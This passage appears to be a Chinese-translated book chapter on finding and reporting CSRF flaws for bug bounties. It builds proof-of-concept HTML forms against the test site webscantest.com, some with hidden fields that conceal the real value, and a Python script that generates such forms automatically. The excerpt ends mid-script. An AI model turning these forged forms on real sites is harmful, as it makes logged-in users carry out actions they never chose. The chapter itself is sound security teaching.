










# 第六章：CSRF 和不安全的会话认证

**跨站请求伪造**（**CSRF**）是指攻击者利用已登录用户的身份验证状态执行恶意应用程序请求，并以有害的方式更改用户的应用程序。由于攻击者无法看到任何攻击的结果，通常与窃取信息无关，更多的是利用应用程序的功能（例如，让移动支付系统的用户向错误的人发送资金）。通常涉及强烈的社会工程方面：钓鱼和其他技术被用来诱使用户点击链接，从而发起恶意请求并充当 CSRF 攻击向量。

CSRF 通常是可能的，因为意图用于应用程序的身份验证凭据或 cookie 错误地允许访问另一个部分。例如，当您登录到 PayPal 或其他支付应用程序时，您点击在聊天会话中发送给您的链接。该链接执行代码，获取您在浏览器中的身份验证 cookie，以进行（经过身份验证的）请求将资金发送给攻击者。与 XSS 不同，危险不在于您将敏感信息发送给攻击者，从而使他们能够稍后冒充或欺诈您；相反，危险是作为应用程序的已登录用户允许执行的操作的直接后果。

许多框架（Spring、Joomla 和 Django）都有自己的解决方案来防止 CSRF，通常包括将 cookie 的身份验证能力与特定的应用程序内操作绑定。但是，尽管 CSRF 被视为已解决的问题，但它仍然作为年度 OWASP 十大调查中的一个经常出现的漏洞。与 SQLi 一样，CSRF 是一个简单但具有破坏性的漏洞，主要是因为软件开发中安全性和生产力之间的紧张关系。

本章将涵盖以下主题：

+   CSRF 的机制

+   用于查找和验证 CSRF 漏洞的工具

+   发现、验证和报告 CSRF 漏洞

# 技术要求

对于本章，我们将使用 Burp Suite 和 Chrome（`66.0.3359.139`）作为我们日常的网络浏览和代理工具。我们将再次使用 Python 3.6.5 和标准的 macOS 版本的 shell（`sh`）进行脚本编写。

# 构建和使用 CSRF PoC

CSRF 概念验证只是一个简短的 HTML 片段，当用户执行时，将利用弱 CSRF 防御并以意想不到或不希望的方式更改应用程序状态，从而验证漏洞。

# 创建 CSRF PoC 代码片段

作为构建 CSRF PoC 片段的基础，让我们回到一个故意易受攻击的网页应用程序`webscantest.com`上的一个表单，该表单既容易受到 XSS 攻击，也容易受到 CSRF 攻击：



现在我们可以填写表单的值，输入一个`William` `Private Mandella` `Mandella`的信息：


为了构建我们的 CSRF PoC，将表单视为一个 HTTP 操作是有帮助的，这样我们可以一次性获取数据编码类型、HTTP 动词和表单字段信息。

为了查看该请求，确保你在浏览器中打开页面，并且该浏览器已连接到你的 Burp Proxy，然后在 Proxy 标签中启用拦截功能。点击提交后，你应该会看到表单暂停，因为 Burp Proxy 拦截并保持了表单的 HTTP `POST` 请求：



从这里，我们可以推导出构建 CSRF PoC 所需的所有部分。让我们看一下代码，然后逐一分析每个标签和属性背后的原因：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Private Mandella" name="nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
    </form>
</html>
```

你可以看到表单的`enctype`属性是直接从拦截的请求中提取的——`method`和`action`属性的 URL 值也是如此。事实上，这个代码片段本质上是提交内容的反向工程表达。我们知道表单创建了什么样的 HTTP 请求——现在我们编写了代码来实现这种行为。

这段代码模仿了原始`webscantest.com`页面上的表单。但在实际的恶意 CSRF 攻击中，攻击者可能并不想简单地触发用户已提交的普通请求的精确复制。更可能的是，他们会根据自己的需要对其进行修改——例如更改财务路由号、修改账户密码或更改其他关键性信息。

在这种情况下，表单字段可能并不是那么容易被利用，但在更危险的情况下，这一原则依然适用。

让我们还是稍微玩一下，将`Private Mandella`晋升为他应得的少将军衔。下面是修改后的代码：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Major Mandella" name="nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
    </form>
</html>
```

但是，如果我们的目的是让 CSRF 攻击的目标无意中做出我们想要的操作——例如改变 Mandella 的军衔——那么为什么要让他们看到这个呢？为什么要给用户一个机会查看或操作`nick`输入字段呢？请看以下内容：

```
<html>
    <form enctype="application/x-www-form-urlencoded" method="POST" action="http://webscantest.com/crosstraining/aboutyou.php">
        <label>fname</label><input type="text" value="William" name="fname">
        <label>nick</label><input type="text" value="Private Mandella" name="other-nick">
        <label>lname</label><input type="text" value="Mandella" name="lname">
        <label>submit</label><input type="text" value="submit" name="submit">
        <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php">
        <input type="hidden" value="Major Mandella" name="nick">
    </form>
</html>
```

在这个最后的代码片段中，我们将`other-nick`输入字段的名称更改为我们的不幸用户期待的`nick`标签，同时将真正的`nick`输入隐藏——它包含了我们的秘密值，即我们认为该用户应得的军衔。

当然，当你创建一个 CSRF PoC 作为 bug 报告的一部分时，你要确保不要实际更改或修改敏感信息（例如密码或交易金额），尽管为了说明 bug 可能的影响，进行一些小的修改是有用的。

# 验证你的 CSRF PoC

现在我们已经创建了一个基本的 CSRF PoC，我们可以应用它来证明 CSRF 漏洞的存在。

使用我们的 PoC 代码片段非常简单。我们只需将其作为本地文件在浏览器中打开，然后提交我们编写的表单：



这是我们在 Chrome 中打开的 PoC。没有 CSS 来美化它——我们的 HTML 片段简洁到极点——但如果在现实中利用 CSRF 漏洞进行攻击，大多数字段可能都已隐藏，可能会有一个虚假的表单让用户提交，或者在页面加载时自动提交表单。请注意，在 `nick` 字段中，我们有 `Private Mandella`——我们的诱饵数据正在发挥作用。

让我们提交表单，看看是否能成功伪造跨站请求：


请求伪造成功！我们已经被重定向到一个成功页面，表明我们本地表单生成的 `POST` 请求已被接受！此外，关键的是，我们可以看到我们的隐藏字段，其中包含 `nick` 输入标签的真实值，这个值被接受并原本为私密的，现在变成了 Major Mandella 的昵称。

这个例子可能仍然看起来相当无害——只是修改了用户名的一部分——但通过改变用户的表单数据来改变应用程序状态是很严重的。即使是修改用户名，也可能是盗取账户的巧妙方式——如果受影响的应用程序不允许仅使用与账户关联的电子邮件找回密码，攻击的受害者可能无法解决认证问题。

# 程序化创建 CSRF 漏洞验证代码（PoC）

与其通过手动构建 PoC 仅凭浏览 Burp 代理标签中的拦截 HTTP 请求，不如有一个脚本可以将我们需要的信息作为一系列输入（来自 CLI 参数、网页爬虫或其他来源），那就太好了。

让我们开始吧。只需一点 Python，我们就可以编写一个简短的脚本，轻松地将我们的信息格式化为 CSRF 漏洞验证代码（PoC）。

让我们先定义构建 PoC 所需的数据。我们将在设置解释器后，在新的 `csrf_poc_generator.py` 文件中开始定义这些变量：

```
#!/usr/bin/env python3

method="POST"
encoding_type="application/x-www-form-urlencoded"
action="http://webscantest.com/crosstraining/aboutyou.php"
fields = [
    {
        "type":"text",
        "name":"fname",
        "label":"fname"
    },
    {
        "type":"text",
        "name":"lname",
        "label":"lname"
    },
    {
        "type":"text",
        "name":"nick",
        "label":"nick"
    }
]
```

这种结构——为基本 `form` 标签属性定义字符串，并为需要构建的不同表单字段提供信息的包含字典的 `fields` 列表——作为起点非常简单，同时也提供了一些基本的功能。具体来说，可以添加任意数量的表单字段并添加新属性以创建新的表单对象。

现在，我们只需要一些逻辑来处理这些数据并生成必要的 HTML 标记。幸运的是，我们在第三章《准备参与攻击》中使用的 HTML 解析器——Beautiful Soup——不仅能提取我们爬取页面的 JavaScript，还能用来创建标记。

例如，这里是生成我们最外层 `html` 标签的代码，它将包裹我们的表单：

```
from bs4 import BeautifulSoup, Tag

content = BeautifulSoup("<html></html>", "html.parser")

print(content.prettify())
```

在这种情况下，我们只是将 HTML 文档实例化为一个单一的闭合 `html` 标签。要插入子元素，我们使用以下代码：

```
html_tag = content.find("html")
form_tag = content.new_tag("form")
html_tag.append(form_tag)
```

在脚本的每一行之后，我们获取对根`html`元素的引用，为将成为我们 CSRF PoC 的`form`创建一个新标记，然后将该表单标记作为其`html`父元素的子元素附加。

以这种方式使用模块展示了它相对于纯字符串操作的优势——我们不必不断地分解和嵌套连续的元素，而且`append()`语法也使得循环和嵌套多个子元素变得更容易（这将很有用）。

考虑到这种结构，我们需要构建 PoC 的最后（也是最重要）部分的标记—表单字段。我们将利用我们可以在循环中嵌套多个子元素以及我们的表单字段数据存储在一个可枚举中的事实：

```
for field in fields:
    field_tag = content.new_tag("input")
    form_tag.append(field_tag)
```

这段代码给我们正确数量的输入，但当然我们仍然需要逻辑来添加`type`、`name`和其他属性。请注意，由于我们不需要后来检索我们正在创建的标记的变量引用，我们可以继续用每次迭代覆盖它们：

```
for field in fields:
    field_tag = content.new_tag("input", type=field['type'])
    field_tag['name'] = field['name']
    form_tag.append(field_tag)
```

你可能会想：为什么不在`new_tag()`调用中添加另一个参数，以便在一行中处理输入的`name`和`type`？

`field_tag['name'] = field['name']`这一行是对 Beautiful Soup 中`name`是保留关键字这一事实的一个不太优雅的解决方案。这意味着我们需要使用 API 的一部分，让我们使用字符串来定义属性，这个方法就是这样做的。我们为完成表单的基本结构的最后补充是一个提交`input`字段。我们可以用两行代码实现：

```
submit_tag = content.new_tag("input", type="submit", value="submit")
form_tag.append(submit_tag)
```

这些额外更改的结果如下：

```
<html>
 <form>
  <input name="fname" type="text"/>
  <input name="lname" type="text"/>
  <input name="nick" type="text"/>
  <input type="submit" value="submit"/>
 </form>
</html>
```

要进一步进行，我们需要扩展我们对属性的使用，并最终使用我们之前定义的其他变量（如`action`和`method`）。我们可以在为每个适当的`input`字段添加一个`label`标签的同时做到这一点。

我们还可以扩展我们的初始数据结构以适应一些变化。假设我们想要为每个`input`添加一个`value`属性（就像我们在其他 PoC 中所做的那样）。我们只需在字典中为每个表单字段添加一个额外的字段即可。

当我们把所有东西放在一起时，它看起来是这样的：

```
#!/usr/bin/env python3
from bs4 import BeautifulSoup

def generate_poc():
    method="POST"
    encoding_type="application/x-www-form-urlencoded"
    action="http://webscantest.com/crosstraining/aboutyou.php"
    fields = [
        {
            "type":"text",
            "name":"fname",
            "label":"fname",
            "value":"William"
        },
        {
            "type":"text",
            "name":"lname",
            "label":"lname",
            "value":"Mandella"
        },
        {
            "type":"text",
            "name":"nick",
            "label":"nick",
            "value":"Major Mandella"
        }
    ]

    content = BeautifulSoup("<html></html>", "html.parser")
    html_tag = content.find("html")
    form_tag = content.new_tag("form", action=action, method=method, enctype=encoding_type)
    html_tag.append(form_tag)

    for field in fields:
        label_tag = content.new_tag('label')
        label_tag.string = field['label']
        field_tag = content.new_tag("input", type=field['type'], value=field['value'])
        field_tag['name'] = field['name']
        form_tag.append(label_tag)
        form_tag.append(field_tag)

    submit_tag = content.new_tag("input", type="submit", value=action)
    form_tag.append(submit_tag)

    return content.prettify()

if __name__ == "__main__":
    print(generate_poc())
```

如果你熟悉 Python，你会注意到逻辑被封装在一个函数中，然后在`if __name__ == "__main__"`条件中引导，这样当我们从命令行运行脚本时就会得到预期的行为（HTML 被打印到`STDOUT`）。同时，我们可以构建其他 Python 模块，导入`generate_poc()`函数而不会产生副作用。

所有这些生成了以下标记：

```
<html>
 <form action="http://webscantest.com/crosstraining/aboutyou.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>fname</label><input name="fname" type="text" value="William"/>
  <label>lname</label><input name="lname" type="text" value="Mandella"/>
  <label>nick</label><input name="nick" type="text" value="Major Mandella"/>
  <input type="submit" value="http://webscantest.com/crosstraining/aboutyou.php"/>
 </form>
</html>
```

它看起来与我们最初从拦截的 Burp 请求中编写的代码非常相似。

现在来试一下！如果我们保存这个文件，再次更改 Mandella 的级别（使他成为一名将军），然后在浏览器中打开它，我们就可以提交它，看看我们对元编程的尝试是否成功：



成功！根据一些简单的数据点，我们的代码生成了证明这个漏洞的代码。

完成这个脚本有很多方法。如前所述，初始变量可以通过命令行参数、从网站提取的数据或简单的应用表单来填充。前面的脚本是所有这些方法的一个很好的起点。

# CSRF – 端到端示例

让我们再看一下 `webscantest.com` 上的 CSRF 漏洞。这是我们将要测试的表单：



很简单。启动 Burp 代理并确保拦截功能开启，接着我们填入一个合适的测试值：



顺便提一下，青色真的很酷——在减色系统中，青色是原色，通过从白光中去除红色可以得到青色。让我们提交这个表单，然后回到 Burp 查看被拦截的请求：



好的，注意重要信息——HTTP 请求方法、表单编码、字段数据等等——让我们看看当我们关闭拦截并允许 `POST` 请求完成时会发生什么：



这是成功提交后的样子。对我们来说，关键是我们可以通过成功消息看到表单提交了什么值。

让我们将这些信息输入到我们的 `csrf_poc_generator.py` 脚本中，对我们声明重要变量的地方做一些小修改，以便我们可以将它们作为命令行参数传递。做完这些修改后，这是脚本顶部部分的新版本——请注意新的 `sys` 和 `ast` 包，以及我们如何使用 `ast` 来解析 Python 列表的文本表示，转换成实际的数据结构：

```
#!/usr/bin/env python3
import sys
import ast

from bs4 import BeautifulSoup, Tag

def generate_poc():
    method=sys.argv[1]
    encoding_type=sys.argv[2]
    action=sys.argv[3]
    fields = ast.literal_eval(sys.argv[4])
```

其余部分的脚本完全一样。现在我们可以从命令行传递关键的信息。目前，传递字段信息有点笨拙，但未来我们可以让它从生成的 JSON 文件或其他数据源（如网络爬虫）中读取。这是我们目前的一行代码：

```
python code/csrf_poc_generator.py "POST" "application/x-www-form-urlencoded" "http://webscantest.com/csrf/csrfpost.php" "[{ 'type':'text', 'name':'property', 'label':'color', 'value':''}]"
```

这是它输出的 PoC 的样子：

```
<html>
 <form action="http://webscantest.com/csrf/csrfpost.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>
   color
  </label>
  <input name="property" type="text" value=""/>
  <input type="submit" value="http://webscantest.com/csrf/csrfpost.php"/>
 </form>
</html>
```

这是我们在 Chrome 中打开时的样子：



严格来说，这个 CSRF PoC 完成了我们需要的功能：它展示了我们可以伪造来自自己源的表单请求。但为了让它稍微黑帽一点（并向赏金计划展示一下该漏洞可能被如何利用），我们来添加一些隐藏字段的诡计。

这是我们的代码片段的样子，它将可见表单字段更改为虚拟值，并创建一个包含实际有效载荷的第二个隐藏字段：

```
<html>
 <form action="http://webscantest.com/csrf/csrfpost.php" enctype="application/x-www-form-urlencoded" method="POST">
  <label>
   color
  </label>
  <input name="dummy-property" type="text" value=""/>
  <input name="property" type="hidden" value="Peasoup">
  <input type="submit" value="http://webscantest.com/csrf/csrfpost.php"/>
 </form>
</html>
```

你可以看到恶意部分——我们正在填充 web 应用实际会消费的属性——我们提交了 Peasoup 作为用户的最爱颜色。我们的堕落深度无可限量。

假装成一个无助的用户，当我们在浏览器中打开代码片段时，我们不会看到任何明显的警告（表面上看）。但如果我们打开 `dev` 工具并开始检查隐藏字段元素，那将是另一个故事：



让我们继续提交表单，使用我们真正最喜欢的颜色：视觉上美丽且科学上有趣的青色。PoC 会返回什么呢？请看以下内容：


豆汤绿——最丑陋且最受诅咒的颜色。但更重要的是，成功信息表明我们的 PoC 已经证明了它的目标。经过一次重构，将命令行参数解析放入 `if __name__ == "__main__":` 启动条件中，这才是它应在的位置，并添加了一个符合 PEP8 的函数文档字符串，最终我们的 `csrf_poc_generator.py` 看起来是这样的：

```
#!/usr/bin/env python3
import sys
import ast

from bs4 import BeautifulSoup, Tag

def generate_poc(method, encoding_type, action, fields):
    """ Generate a CSRF PoC using basic form data """
    content = BeautifulSoup("<html></html>", "html.parser")
    html_tag = content.find("html")
